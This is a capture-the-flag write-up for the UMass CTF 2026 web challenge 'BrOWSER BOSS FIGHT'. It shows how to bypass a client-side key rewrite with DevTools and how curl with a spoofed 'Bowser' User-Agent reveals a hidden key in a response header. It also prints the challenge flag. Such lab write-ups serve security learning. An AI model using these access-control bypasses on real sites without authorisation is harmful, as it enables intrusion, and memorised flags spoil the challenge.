



# BrOWSER BOSS FIGHT — UMass CTF 2026

> **Room / Challenge:** BrOWSER BOSS FIGHT (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** UMass CTF 2026
- **Challenge:** BrOWSER BOSS FIGHT (web)

---

<p align="center"></p>

## Goal

Pass the gate and get the flag.

## My Solution

Access the home page and see the source:

```html
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" href="/css/style.css" />
  </head>
  <body class="welcome_body">
    <form
      action="/password-attempt"
      method="post"
      ,
      class="key-input-form"
      id="key-form"
    >
      <button type="submit" class="door-btn">
        
      </button>
      <input
        type="text"
        id="key"
        name="key"
        placeholder="Input Key"
        required
        onkeydown="return event.key != 'Enter';"
      />
      <script>
        document.getElementById("key-form").onsubmit = function () {
          const knockOnDoor = document.getElementById("key");
          // It replaces whatever they typed with 'WEAK_NON_KOOPA_KNOCK'
          knockOnDoor.value = "WEAK_NON_KOOPA_KNOCK";
          return true;
        };
      </script>
    </form>
  </body>
</html>
```

We know that whatever we submit the client automatically change it to `WEAK_NON_KOOPA_KNOCK`, which kept us submitting the correct key. I tried running JavaScript code in the DevTools to see how the server respond:

```javascript
document.getElementById("key").value = "anything";
document.getElementById("key-form").submit();
```

Being redirected to `/kamek.html`:

As expected, the key is incorrect. It said `You clearly aren't bowser`. The next step I tried was making a request with `bowser` as `User-Agent`:

```bash
curl -i \
    -A 'Bowser' \
    -d 'key=test' \
    http://browser-boss-fight.web.ctf.umasscybersec.org:48003/password-attempt

HTTP/1.1 302 Found
X-Powered-By: Express
Server: BrOWSERS CASTLE (A note outside: "King Koopa, if you forget the key, check under_the_doormat! - Sincerely, your faithful servant, Kamek")
Location: /kamek.html
Vary: Accept
# ...

Redirecting to /kamek.html
```

Saw a note from the server, submit the key `under_the_doormat`:

```bash
curl -i \
    -A 'Bowser' \
    -d 'key=under_the_doormat' \
    "http://browser-boss-fight.web.ctf.umasscybersec.org:48003/password-attempt"

HTTP/1.1 302 Found
X-Powered-By: Express
Server: BrOWSERS CASTLE (A note outside: "King Koopa, if you forget the key, check under_the_doormat! - Sincerely, your faithful servant, Kamek")
Location: /bowsers_castle.html
#...

Redirecting to /bowsers_castle.html
```

Now we bypass the first door, and get redirect to `/bowsers_castle.html`. I don't know why I cannot see the source from the `curl`, so I have to use browser, change manually the `User-Agent` to `Bowser` and submit the key `under_the_doormat` in the home page, get redirected to `/bowsers_castle.html` and get the flag.



Flag: `UMASS{br0k3n_1n_2_b0wz3r5_c4st13}`
